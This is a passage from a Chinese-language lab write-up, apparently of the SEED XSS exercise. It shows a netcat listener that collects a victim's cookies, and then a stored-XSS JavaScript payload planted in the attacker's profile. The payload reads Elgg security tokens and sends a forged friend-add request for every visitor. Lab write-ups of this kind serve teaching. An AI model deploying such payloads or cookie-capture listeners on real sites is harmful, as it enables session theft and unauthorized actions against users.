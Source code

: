 在端口上开启监听

```shell
$ nc -lknv 5555
```

登录 Alice 账号，点进 Samy 的 profile，看到返回了 cookie

<img src="./../assets/post/images/A4T217hExDrLPVB.png" alt="image-20210720162909994" style="zoom: 50%;" />

# Task 4: Becoming the Victim’s Friend

这个 Task 利用 js 实现 GET 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl="http://www.seed-server.com/action/friend/add?friend=59" +
            ts + token;
        
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```
